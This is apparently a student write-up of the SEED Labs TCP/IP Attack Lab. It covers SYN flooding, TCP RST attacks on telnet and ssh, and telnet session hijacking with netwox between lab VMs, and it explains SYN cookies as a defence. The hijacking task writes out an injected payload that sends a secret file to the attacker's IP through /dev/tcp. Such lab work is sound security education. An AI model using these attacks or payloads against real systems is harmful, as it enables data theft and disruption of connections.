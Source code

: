```yaml
---
title: '[SEED labs] TCP/IP Attack Lab'
date: 2021-11-08 15:53
category: 'SEEDlabs'
draft: false
---
```


[Lab Instructions](https://seedsecuritylabs.org/Labs_16.04/PDF/TCP_Attacks.pdf)

## Network Setup

For this lab, a network between virtual machines have been made.

Copy and make 2 more Virtual Machines of `SeedUbuntu`. All machines have the network setting Attached to Bridged Adapter with different MAC Address and set as promiscuous mode.

![1-1](./images/TCPIP/Network Setup/1.PNG)

Use the `ifconfig` command and check the `enp0s3 inet addr` to check the IP address of each VM.

![1-2](./images/TCPIP/Network Setup/2.PNG)

This is how the network is set.

![1-3](./images/TCPIP/Network Setup/3.PNG)

## Task 1: SYN Flooding Attack

The objective of this task is to perform a SYN Flooding Attack using `Netwox`.

Check that a telnet connection between the server and client is possible in a normal environment.

![2-1](./images/TCPIP/Task1/1.PNG)

If we check the TCP SYN cookies parameter of the client machine, we can see that it is set as 1. Try changing this to 0.

![2-2](./images/TCPIP/Task1/2.PNG)

Generate a TCP SYN Flooding attack from the attacker using the `netwox` . If we check the network connections in the client, we can see the client is receiving multiple `SYN_RECV` tcp packets from different sources.

![2-3](./images/TCPIP/Task1/3.PNG)

If the server tries a telnet connection to the client, it fails because of to the TCP SYN Flooding attack.

![2-4](./images/TCPIP/Task1/4.PNG)If we change the TCP SYN cookie parameter of the client to 1 and try the same process again, the server can establish a telnet connection with the client.

![2-5](./images/TCPIP/Task1/5.PNG)

![2-6](./images/TCPIP/Task1/6.PNG)

![2-7](./images/TCPIP/Task1/7.PNG)

The difference is because SYN Cookies are used to prevent SYN Flooding attacks. If SYN Cookies are used, a hash `H` of the received packet is sent back to the source of the packet as the initial sequence number. If the source is not an attacker, it sends `H+1` in the acknowledgement field back. This is used to check packets if they are from an attacker or not, and whether to fill the TCB queue or not.

## Task 2: TCP RST Attacks on telnet and ssh Connections

TCP Reset attack is an attack that can terminate an established TCP connection between two victims by spoofing a RST packet to the victims. The objective of this task is to perform a TCP RST Attack using `Netwox`.

### Attack on telnet Connection

First, set a telnet connection between the server and the client.

![3-1](./images/TCPIP/Task2/1.PNG)

Perform a TCP Reset Attack using `Netwox` and check that the connection between the server and client has ended. The filter parameter is used to choose the IP address and port to send the RST packet.

![3-2](./images/TCPIP/Task2/2.PNG)

If the server tries to connect with the client again, it is impossible.

![3-3](./images/TCPIP/Task2/3.PNG)

### Attack on ssh Connections

By using the same `Netwox` command, ssh Connections can also be terminated.

This time, the attack is filtered `dst port 22` because ssh Connections use port #22.

![3-3](./images/TCPIP/Task2/4.PNG)

## Task 3: TCP Session Hijacking

The objective of this task is to hijack an existing TCP connection (session) between two victims by injecting malicious contents into this session.

First, set a telnet connection between the server and the client.

![4-1](./images/TCPIP/Task3/1.PNG)

To verify that the hijacking has succeeded, we will make a file "Secret". Capture the Telnet Connection while making the file using Wireshark.

![4-1](./images/TCPIP/Task3/2.PNG)

Open port 9090 of the attacker to get the data, and open a new terminal in the attacker machine to prepare the attack.

`netwox -40` has a variety of parameters. Use the `Sudo netwox 40 --help` command to check each parameter. For the task, we will use the following parameters.

```
-l : ip4-src ip
-m : ip4-dst ip
-o : tcp-src port
-p : tcp-dst port
-q : tcp-seqnum uint32
-E : tcp-window uint32
-r : tcp-acknum uint32
-z : no-tcp-ack
-H : tcp-data
```

Parameters can be found from the final captured packet in Wireshark.

For the data, the hex value of `'\r cat /home/seed/secret > /dev/tcp/192.168.35.135/9090\r'`

will be used. this can be calculated easily by python.

![4-3](./images/TCPIP/Task3/3.PNG)

Using the found parameters, use `Netwox` command to perform hijacking.

We can see the structure of the packet and the message "secret" saved in the secret file sent through telnet connection.

![4-4](./images/TCPIP/Task3/4.PNG)
